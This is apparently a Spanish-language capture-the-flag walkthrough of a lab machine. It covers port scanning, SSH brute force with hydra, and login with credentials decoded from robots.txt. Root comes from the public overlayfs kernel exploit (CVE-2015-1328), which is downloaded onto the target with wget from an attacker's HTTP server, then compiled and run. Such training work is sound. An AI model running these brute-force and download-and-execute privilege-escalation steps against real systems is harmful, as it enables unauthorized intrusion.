Comenzamos realizando un escaneo de los puertos abiertos en la máquina víctima.

`sudo nmap 192.168.191.92 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts`



Tenemos abiertos los puertos 22 y 80. Todo apunta a SSH y HTTP por ``well known ports``, pero vamos a pasarle estos puertos abiertos a nmap para que haga otro escaneo y nos diga con exactitud qué servicios y versiones están corriendo.

`nmap 192.168.191.92 -p22,80 -sCV -oN target`



Confirmamos que tenemos servicio SSH (OpenSSH 5.9) en el p22 y servicio HTTP (Apache 2.2.22) en el p80. Puede que el servicio SSH sea vulnerable a ``username enumeration``, pero vamos a comenzar a enumerar el Apache.

`whatweb http://192.168.191.92`



Si echamos un vistazo a nivel de web no encontramos nada interesante.

Si inspeccionamos el robots.txt, podemos ver una cadena bastante curiosa que apunta a base64. Nos la guardamos:
`Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=`

Si decodificamos: `cat base64.txt|base64 -d`



Esto parece más publicidad del autor que otra cosa, pero nos lo guardamos en ``decode.txt`` por si acaso.

En el código fuente de la página podemos ver:



Vale, tenemos un usuario que probablemente sea válido a nivel de sistema. Se intenta su propia nombre como contraseña para ingresar por SSH, pero no tiene éxito. Por ello, se decide lanzar fuerza bruta con la herramienta ``hydra`` con ``rockyou`` como diccionario:

`hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.191.92 -t 32`

Después de un rato, vemos que no funciona. No van por aquí los tiros.

¿Será que la cadena en base64 que hemos visto en el robots.txt no es sólo publicidad, sino también la contraseña de este usuario?

``hydra -L user.txt -P decode.txt ssh://192.168.191.92 -t 32``



Funciona! ``itsskv``:``cybersploit{youtube.com/c/cybersploit}``

Nos conectamos por SSH con las credenciales obtenidas:

``ssh itsskv@192.168.191.92``



Estamos dentro de la máquina víctima con el usuario ``itsskv``.

Podemos recoger la flag de usuario en el directorio personal de nuestro usuario: ``/home/itsskv/local.txt``:

`whoami && ip addr && cat local.txt`



Valor de local.txt: ``b1b0e19ead8d6f8226c51e06d0e45d70``

# PRIVESC

Si probamos escaladas típicas, encontramos algo jugoso:

`uname -a`



Tenemos un Linux 3.13.0. Versión bastante bajita, por lo que seguro que hay algún exploit público.

``searchsploit linux kernel 3.13.0``



Si inspeccionamos el exploit ``37292.c`` vemos que hace referencia al CVE-2015-1328: https://nvd.nist.gov/vuln/detail/cve-2015-1328

Tiene bastante buena pinta, por lo que vamos a ello.

- Descargamos en máquina atacante: `searchsploit -m 37292.c`



- Montamos un servidor HTTP con python en máquina atacante: ``python3 -m http.server 80``
- Realizamos solicitud del recurso desde máquina víctima: ``wget http://192.168.45.244/37292.c``



- Compilamos en máquina víctima siguiendo las instrucciones del script y ejecutamos.

`gcc 37292.c -o ofs && ./ofs`



Hemos escalado correctamente a root. Podemos recoger la flag de root en ``/root/root.txt``:

Valor proof.txt: ``ae7db1fe928eec9ee886ba5e149437f0``
